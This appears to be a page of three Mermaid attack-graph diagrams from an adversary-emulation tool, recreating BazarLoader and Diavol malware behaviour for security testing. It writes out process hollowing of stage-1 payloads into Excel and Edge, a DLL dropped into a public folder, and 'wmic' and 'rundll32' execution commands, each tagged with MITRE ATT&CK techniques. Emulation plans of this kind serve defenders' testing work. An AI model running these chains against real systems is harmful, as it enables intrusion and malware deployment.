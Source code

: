 

 #Attack Graph
```mermaid
graph TD
Step0["<b> module: https </b> <br>"]
Step1["<b> module: loader </b> <br><h4> parameters: </h4> <i> --load scythe.phollowing </i> <br>"]
Step2["<b> module: scythe.phollowing </b> <br><h4> parameters: </h4> <i> --src VFS:/shared/threats/BazarLoader/BazarLoaderStage1.exe --target C:\Program Files\Microsoft Office\root\Office16\EXCEL.EXE </i> <br><a href='https://attack.mitre.org/techniques/T1055.012'>att&ck-technique:T1055.012</a><br>
"]
Step3["<b> module: controller </b> <br><h4> parameters: </h4> <i> --shutdown </i> <br><a href='https://attack.mitre.org/tactics/TA0011'>att&ck-tactic:TA0011</a><br>
<a href='https://attack.mitre.org/techniques/T1219'>att&ck-technique:T1219</a><br>
"]
Step0 --> Step1
Step1 --> Step2
Step2 --> Step3
Step3 --> Step4
```


 #Attack Graph
```mermaid
graph TD
Step0["<b> module: https </b> <br>"]
Step1["<b> module: loader </b> <br><h4> parameters: </h4> <i> --load downloader </i> <br>"]
Step2["<b> module: downloader </b> <br><h4> parameters: </h4> <i> --src VFS:/shared/threats/BazarLoader/87764675478.dll --dest C:\Users\Public\87764675478.dll </i> <br>"]
Step3["<b> module: loader </b> <br><h4> parameters: </h4> <i> --load run </i> <br>"]
Step4["<b> module: run </b> <br><h4> parameters: </h4> <i> wmic process call create powershell.exe whoami </i> <br>"]
Step5["<b> module: run </b> <br><h4> parameters: </h4> <i> powershell.exe rundll32.exe C:\Users\Public\87764675478.dll,setscreen </i> <br><a href='https://attack.mitre.org/techniques/T1218.011'>att&ck-technique:T1218.011</a><br>
"]
Step6["<b> module: controller </b> <br><h4> parameters: </h4> <i> --shutdown </i> <br><a href='https://attack.mitre.org/tactics/TA0011'>att&ck-tactic:TA0011</a><br>
<a href='https://attack.mitre.org/techniques/T1219'>att&ck-technique:T1219</a><br>
"]
Step0 --> Step1
Step1 --> Step2
Step2 --> Step3
Step3 --> Step4
Step4 --> Step5
Step5 --> Step6
Step6 --> Step7
```


 #Attack Graph
```mermaid
graph TD
Step0["<b> module: https </b> <br>"]
Step1["<b> module: loader </b> <br><h4> parameters: </h4> <i> --load scythe.phollowing </i> <br>"]
Step2["<b> module: scythe.phollowing </b> <br><h4> parameters: </h4> <i> --src VFS:/shared/threats/Diavol/DiavolStage1.exe --target C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe </i> <br><a href='https://attack.mitre.org/techniques/T1055.012'>att&ck-technique:T1055.012</a><br>
"]
Step3["<b> module: controller </b> <br><h4> parameters: </h4> <i> --shutdown </i> <br><a href='https://attack.mitre.org/tactics/TA0011'>att&ck-tactic:TA0011</a><br>
<a href='https://attack.mitre.org/techniques/T1219'>att&ck-technique:T1219</a><br>
"]
Step0 --> Step1
Step1 --> Step2
Step2 --> Step3
Step3 --> Step4
```